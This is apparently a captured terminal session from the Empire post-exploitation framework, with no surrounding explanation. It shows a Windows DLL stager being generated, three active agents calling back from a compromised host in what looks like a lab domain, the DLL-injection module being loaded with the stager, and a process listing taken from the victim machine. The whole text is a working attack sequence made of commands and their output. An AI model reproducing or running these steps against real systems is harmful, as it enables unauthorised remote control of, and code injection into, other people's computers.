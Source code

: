 ```
(Empire: stager/windows/dll) > execute

[*] Stager output written out to: /tmp/launcher.dll

(Empire: stager/windows/dll) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 22:10:13  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 22:10:13  https           
 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 22:10:09  https           


(Empire: agents) > interact TKV35P8X
(Empire: TKV35P8X) > usemodule code_execution/invoke_dllinjection
(Empire: powershell/code_execution/invoke_dllinjection) > set Dll launcher.dll
(Empire: powershell/code_execution/invoke_dllinjection) > back
(Empire: TKV35P8X) > ps
[*] Tasked TKV35P8X to run TASK_SHELL
[*] Agent TKV35P8X tasked with task ID 29
(Empire: TKV35P8X) > ProcessName                                                     PID Arch UserName                 
-----------                                                     --- ---- --------                 
Idle                                                              0 x64  N/A                      
System                                                            4 x64  N/A                      
Registry                                                         68 x64  NT AUTHORITY\SYSTEM      
WindowsInternal.ComposableShell.Experiences.TextInput.InputApp  184 x64  SHIRE\nmartha            
svchost                                                         264 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
smss                                                            276 x64  NT AUTHORITY\SYSTEM      
svchost                                                         324 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
svchost                                                         352 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
svchost                                                         368 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
csrss                                                           372 x64  NT AUTHORITY\SYSTEM      
svchost                                                         388 x64  NT AUTHORITY\SYSTEM      
svchost                                                         432 x64  NT AUTHORITY\SYSTEM      
wininit                                                         440 x64  NT AUTHORITY\SYSTEM      
csrss                                                           448 x64  NT AUTHORITY\SYSTEM      
winlogon                                                        508 x64  NT AUTHORITY\SYSTEM      
services                                                        532 x64  NT AUTHORITY\SYSTEM      
lsass                                                           540 x64  NT AUTHORITY\SYSTEM      
svchost                                                         672 x64  NT AUTHORITY\SYSTEM      
fontdrvhost                                                     680 x64  Font Driver Host\UMFD-1  
fontdrvhost                                                     688 x64  Font Driver Host\UMFD-0  
svchost                                                         748 x64  NT AUTHORITY\SYSTEM      
svchost                                                         780 x64  NT AUTHORITY\NETWORK     
                                                                         SERVICE                  
svchost                                                         832 x64  NT AUTHORITY\SYSTEM      
svchost                                                         852 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
dwm                                                             936 x64  Window Manager\DWM-1     
svchost                                                        1000 x64  NT AUTHORITY\LOCAL       
                                                                         SERVICE                  
```
